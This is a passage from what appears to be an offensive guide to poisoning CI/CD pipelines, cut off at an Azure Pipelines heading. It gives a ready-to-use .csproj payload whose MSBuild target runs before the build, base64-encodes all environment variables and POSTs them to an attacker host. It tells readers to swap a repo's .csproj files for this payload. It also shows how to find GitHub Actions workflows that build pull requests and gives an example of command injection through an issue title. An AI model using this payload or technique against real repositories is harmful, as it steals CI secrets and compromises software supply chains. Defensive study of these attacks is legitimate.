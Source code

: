 

### C# - *.csproj

> `.csproj` files are build file for the `C#` runtime.\
> They are constructed as XML files that contain the different dependencies that are required to build the project.\
> Replacing all the `.csproj` files in the repo with the following payload may trigger their execution by the CI.

NOTE: Since this is an XML file - XML special characters must be escaped.


```powershell
<Project>
 <Target Name="SendEnvVariables" BeforeTargets="Build;BeforeBuild;BeforeCompile">
   <Exec Command="powershell -Command &quot;$envBody = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes((Get-ChildItem env: | Format-List | Out-String))); Invoke-WebRequest -Uri {YourHostName} -Method POST -Body $envBody&quot;" />
 </Target>
</Project>
```



## CI/CD products

### GitHub Actions

The configuration files for GH actions are located in the directory `.github/workflows/`\
You can tell if the action builds pull requests based on its trigger (`on`) instructions:
```
on:
  push:
    branches:
      - master
  pull_request:
```

In order to run an OS command in an action that builds pull requests - simply add a `run` instruction to it.\
An action may also be vulnerable to command injection if it dynamically evaluates untrusted input as part of its `run` instruction:

```
jobs:
  print_issue_title:
    runs-on: ubuntu-latest
    name: Print issue title
    steps:
    - run: echo "${{github.event.issue.title}}"
```


### Azure Pipelines (Azure DevOps)
